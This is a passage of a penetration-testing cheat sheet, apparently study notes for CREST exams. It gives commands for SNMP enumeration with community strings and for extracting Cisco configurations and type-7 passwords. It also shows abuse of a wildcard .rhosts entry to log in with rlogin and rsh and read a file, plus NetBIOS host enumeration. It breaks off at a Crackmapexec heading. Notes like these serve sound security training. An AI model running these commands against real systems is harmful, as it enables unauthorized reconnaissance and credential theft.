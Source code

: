 {% highlight PowerShell %}
snmpget -v 2c -c myprivstring 10.99.0.10 .1.3.6.1.2.1.1.5.0
iso.3.6.1.2.1.1.5.0 = STRING: "dc.practice.lab"
{% endhighlight %}

snpenum.pl script is aliased and can be called anywhere

{% highlight PowerShell %}
/usr/share/snmpenum ./snmpenum.pl 10.50.1.250 private windows.txt
snmpenum 10.50.1.250 private windows.txt
{% endhighlight %}

CREST CTL

{% highlight PowerShell %}
auxiliary/scanner/snmp/cisco_config_tftp
cat /root/Desktop/crest/snmp/192.168.201.240.txt | grep "password 7"
nmap -sU -p 161 -n -Pn --script=snmp-ios-config --script-args snmp-ios-config.tftproot=/root/Desktop/crest/snmp/ --script-args=snmpcommunity=readwrite <ip>
{% endhighlight %}

# RSH and Rlogin

cat .rhosts host user + evilsaint

> in this example the user evilsaint can connect from any host as the + is a wildcard.

{% highlight PowerShell %}
rlogin -l evilsaint 10.50.1.203
{% endhighlight %}

{% highlight PowerShell %}
rsh -l evilsaint 10.50.1.203 cat secret.txt
{% endhighlight %}

# SMB

## NetBIOS

Find all hosts responding to netbios, the `q` supresses the headers

{% highlight PowerShell %}
nbtscan -q 10.11.1.0/24
{% endhighlight %}

Look at more detail for a single host either by IP or hostname

{% highlight PowerShell %}
nmblookup -A 10.50.1.254
nmblookup -S DC01
{% endhighlight %}

## Crackmapexec
